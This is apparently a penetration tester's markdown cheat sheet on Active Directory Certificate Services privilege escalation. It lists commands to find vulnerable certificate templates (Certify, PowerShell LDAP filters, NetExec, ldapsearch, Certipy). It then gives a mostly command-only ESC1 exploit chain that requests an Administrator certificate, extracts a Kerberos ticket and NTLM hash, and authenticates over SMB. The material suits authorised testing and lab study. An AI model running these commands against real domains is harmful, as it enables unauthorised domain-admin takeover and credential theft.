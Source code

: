 ```yaml
---
tags:
  - Authenticated
  - Certificate-Service
  - Privilege-Escalation
  - AD
---
```

## Identify
---
### From Windows
**Check if “Cert Publishers” group exists (checks if ADCS is enabled)**
```C
net localgroup "Cert Publishers"
```
**Use cerify.exe**
```C
.\Certify.exe find /vulnerable
```
Powershell
```C
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=Domain,DC=local'
```
### From Linux
**NetExec**
```C
nxc ldap <IP> -u "user" -p "Password123!" -M adcs
```
**ldap**
```bash
ldapsearch -x -D "CN=svc-ldapuser,CN=Users,DC=certified,DC=htb" -w 'SuperSecretPass' -b "DC=certified,DC=htb" "(&(objectClass=pKIEnrollmentService))" -H ldap://10.129.229.25
```
**Certipy**
```C
certipy-ad find -u 'user@domain.local' -p 'Password123!' -dc-ip <IP> -vulnerable -stdout
```
## Exploit
---
### ESC1
If a template is vulnerable to ESC1, certipy can automatically exploit it.
Request the Administrators certificate:
```bash
certipy-ad req -u <user> -p <password> -dc-ip <IP> -template <Template Name> -upn Administrator@certified.htb -ca <Certificate Authorities> -target dc.domain.local
```
Request TGS & NTLM hash with certificate:
```bash
certipy-ad auth -pfx administrator.pfx -dc-ip <IP>
```
Or with NXC:
```bash
nxc smb <IP> --pfx-cert administrator.pfx -u 'Administrator'
```
